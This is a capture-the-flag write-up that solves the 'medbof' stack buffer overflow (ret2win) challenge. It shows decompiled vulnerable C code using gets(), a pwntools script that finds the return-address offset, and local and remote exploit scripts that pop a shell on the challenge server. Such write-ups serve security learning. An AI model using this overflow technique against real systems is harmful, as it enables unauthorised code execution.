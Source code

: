 ```yaml
---
layout: writeup
category: Cyber-Cooperative-CTF-2023
chall_description:
points: 200
solves: 155
tags: pwn buffer-overflow ret2win
date: 2023-12-19
comments: false
---
```


a little harder this time  
`nc 0.cloud.chals.io 27380`  

[medbof](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/Cyber-Cooperative-CTF-2023/pwn/medbof)  

---

We're given an ELF binary, `medbof`. I decompiled with [Dogbolt](https://dogbolt.org/). Here is the relevant Hex-Rays decompilation:  

```c
//----- (0000000000400646) ----------------------------------------------------
int do_system()
{
  return system("/bin/sh");
}

//----- (0000000000400657) ----------------------------------------------------
__int64 do_input()
{
  char v1[32]; // [rsp+0h] [rbp-20h] BYREF

  printf("a little harder this time");
  fflush(_bss_start);
  return gets(v1);
}
// 400520: using guessed type __int64 __fastcall gets(_QWORD);
// 400657: using guessed type char var_20[32];

//----- (0000000000400691) ----------------------------------------------------
int __fastcall main(int argc, const char **argv, const char **envp)
{
  do_input();
  return 0;
}
```

Seems like a simple ret2win. We just need to find the address of the `do_system` function and overwrite the RIP (return address) with that address.  

First, let's run `checksec --file=medbof`:  

```
[*] '/home/nightxade/Documents/ctfsbackup/Cyber Cooperative CTF 2023/exploit/medbof/medbof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Very few protections enabled.  

`file medbof` returned this:  

```
medbof: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=0b75cdcc9e3da83a9bbdcea25765f38519ce2acc, not stripped
```

The file isn't stripped, i.e. it still has its ELF symbols (this will allow us to get the address of `do_system`).  

Now that we've done the necessary recon, it's time to write an exploit. First, I used pwntools' cyclic function to find the offset of the RIP from our input:  

```py
from pwn import *

p = process('./medbof')
print(p.recvuntil(b'time').decode('ascii'))

p.sendline(cyclic(50))
p.wait()
core = p.corefile
stack = core.rsp
info("rsp = %#x", stack)
pattern = core.read(stack, 4)
rip_offset = cyclic_find(pattern)
info(f'rip offset is {rip_offset}')
```

Basically, what the code above does, is, it runs until the RIP is the next value to be popped off the stack (i.e. when the `do_input` function is about to return), reads that value of the RIP, which should have been overwritten by the cyclic, and finds that value in the cyclic. From this, it is able to determine the offset of the RIP from the input.  

Once we have the offset of the RIP, pwning this program is simple. We just need a buffer of 40 bytes and then the address of the win function. Here was my local exploit implementation:  

```py
from pwn import *
from pwnlib.util.packing import p32

p = process('./medbof')
print(p.recvuntil(b'time').decode('ascii'))

elf = ELF('./medbof')
addr_win = elf.symbols['do_system']
buffer = b'A' * 40
p.sendline(buffer + p32(addr_win))
p.interactive()
```

And here was my corresponding remote solve:  

```py
from pwn import *
from pwnlib.util.packing import p32

p = remote('0.cloud.chals.io', 27380)
print(p.recvuntil(b'time').decode('ascii'))

addr_win = 4195910 # from localsolve.py
buffer = b'A' * 40
p.sendline(buffer + p32(addr_win))
p.interactive()
```

Opening the remote connection in interactive mode provides us the shell. `ls` --> `cat flag.txt` gets us the flag!  

    flag{getting_better_at_hacking_binaries_i_see...}